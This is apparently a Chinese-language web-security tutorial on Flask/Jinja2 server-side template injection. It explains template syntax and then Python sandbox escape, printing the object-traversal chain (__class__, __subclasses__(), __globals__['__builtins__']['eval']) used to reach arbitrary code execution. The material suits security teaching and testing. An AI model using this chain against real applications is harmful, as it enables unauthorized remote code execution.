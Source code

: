 **<a class="reference-link" name="Flask%20Jinja2%20ssti"></a>Flask Jinja2 ssti**

Jinja2是Flask作者开发的一个模板系统，起初是仿django模板的一个模板引擎，为Flask提供模板支持，由于其灵活，快速和安全等优点被广泛使用。

**在jinja2中，存在三种语法：**

```
控制结构 `{`% %`}`
变量取值 `{``{` `}``}`
注释 `{`# #`}`
```

**jinja2模板中使用 `{``{` `}``}` 语法表示一个变量**，它是一种特殊的占位符。当利用jinja2进行渲染的时候，它会把这些特殊的占位符进行填充/替换，jinja2支持python中所有的Python数据类型比如列表、字段、对象等。

inja2中的**过滤器**可以理解为是**jinja2里面的内置函数和字符串处理函数。**

被两个括号包裹的内容会输出其表达式的值。

**<a class="reference-link" name="%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>漏洞利用**

**payload原理**

Jinja2 模板中可以访问一些 Python 内置变量，如[] `{``}` 等，并且能够使用 Python 变量类型中的一些函数，这里其实就引出了**python沙盒逃逸**。

**<a class="reference-link" name="python%E6%B2%99%E7%9B%92%E9%80%83%E9%80%B8"></a>python沙盒逃逸**

python的内敛函数很强大，可以调用一切函数做自己想做的事情

```
__builtins__
__import__
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t01f25639eaca429ee8.png)

在python的object类中集成了很多的基础函数，我们想要调用的时候也是需要用object去操作的，这是两种创建object的方法

Python中一些常见的特殊方法：

```
__class__返回调用的参数类型。
__base__返回基类
__mro__允许我们在当前Python环境下追溯继承树
__subclasses__()返回子类
```

现在我们的思路就是从一个内置变量调用**class**.**base<strong>等隐藏属性，去找到一个函数，然后调用其**globals</strong>[‘**builtins**‘]即可调用eval等执行任意代码。

```
().__class__.__bases__[0]
''.__class__.__mro__[2]
`{``}`.__class__.__bases__[0]
[].__class__.__bases__[0]
#builtins即是引用，Python程序一旦启动，它就会在程序员所写的代码没有运行之前就已经被加载到内存中了,而对于builtins却不用导入，它在任何模块都直接可见，所以这里直接调用引用的模块

&gt;&gt;&gt; ''.__class__.__base__.__subclasses__()
# 返回子类的列表 [,,,...]

#从中随便选一个类,查看它的__init__
&gt;&gt;&gt; ''.__class__.__base__.__subclasses__()[30].__init__
&lt;slot wrapper '__init__' of 'object' objects&gt;
# wrapper是指这些函数并没有被重载，这时他们并不是function，不具有__globals__属性

#再换几个子类，很快就能找到一个重载过__init__的类，比如
&gt;&gt;&gt; ''.__class__.__base__.__subclasses__()[5].__init__

&gt;&gt;&gt; ''.__class__.__base__.__subclasses__()[5].__init__.__globals__['__builtins__']['eval']
#然后用eval执行命令即可
```
